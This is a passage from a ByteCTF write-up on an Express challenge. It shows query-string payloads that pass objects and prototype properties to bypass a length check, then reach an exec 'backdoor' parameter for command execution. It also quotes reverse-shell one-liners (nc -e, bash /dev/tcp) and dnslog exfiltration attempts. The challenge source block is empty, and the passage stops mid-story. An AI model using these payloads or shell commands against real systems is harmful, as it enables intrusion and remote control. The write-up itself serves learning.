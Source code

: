 ```javascript
```

As you can see, there is an `exec` that can execute commands, and then it's the classic evasion step. First, we need the length to be greater than `3000` and after `JSON.stringify` it should be less than `1024`, which puzzled me. Then, a colleague said that this thing can directly transmit objects. So, with a `length` attribute value greater than `3000`, it's fine. Wow, I didn't know `express` could directly transmit objects. So, I decided to run it locally first. First, save the code as `app.js`, and then run the command in the local directory.

```shell
$ npm install express
$ node app.js
```

Then, let's try printing `req.query.ByteCTF` and visit `http://localhost:3000/?ByteCTF[a]=1&ByteCTF[b]=2`, to get an object output.

```javascript
// http://localhost:3000/?ByteCTF[a]=1&ByteCTF[b]=2
// too short.
{ a: '1', b: '2' }
```

Since it can be converted into an object, we can directly write an object with a `length` attribute into it, so that when it checks the `length`, it's greater than `3000`.

```javascript
// http://localhost:3000/?ByteCTF[__proto__][length]=100000&ByteCTF[a]=1
// Got it!
{ a: '1' }
```

You can see that the output is `Got it!`, which means that the code successfully executed the line `res.end("Got it!")`. Now, all we need to do is to make this object throw an exception when concatenating strings. In JavaScript, when an object is converted to a string, the `toString` method is called. Since we're passing an object, we can completely override this method by passing a value directly. Because we're not passing a function, an exception will be thrown when the `toString` function is attempted to be called during concatenation.

```javascript
// http://localhost:3000/?ByteCTF[__proto__][length]=100000&ByteCTF[a]=1&ByteCTF[toString]=1
// Throws an exception: TypeError: Cannot convert object to primitive value
// Nothing here!
```

As you can see, the output is `Nothing here!`. Then, all we need to do is to pass a `backdoor` parameter to execute commands.

```javascript
// http://localhost:3000/?ByteCTF[__proto__][length]=100000&ByteCTF[a]=1&ByteCTF[toString]=1&backdoor=echo%201
// Exec complete, but nothing here
```

So far, things seem to be going well, but just seemingly. At first, I couldn't quite understand what "fully enclosed" meant in the challenge. I tried to use `nc -e /bin/bash {host} {port}` to bounce a shell, but got no response for a while. I figured that perhaps the distribution didn't support the `-e` parameter. So, I attempted `bash -i >& /dev/tcp/{host}/{port} 0>&1`, but that didn't work either. Then, I checked my machine's `nc -lvvp {port}` and it seemed fine. Next, I tried `dnslog` and attempted to use `curl` and `ping`, but didn't receive any records. That's when I finally understood what "fully enclosed" meant – the target machine had no internet access. I could perform an RCE, but couldn't retrieve anything, which was frustrating. Then, I thought about killing the `node` process and using that port for communication, or checking if there were any other available ports. Then, my teammate came up with a new trick, which left me stunned.
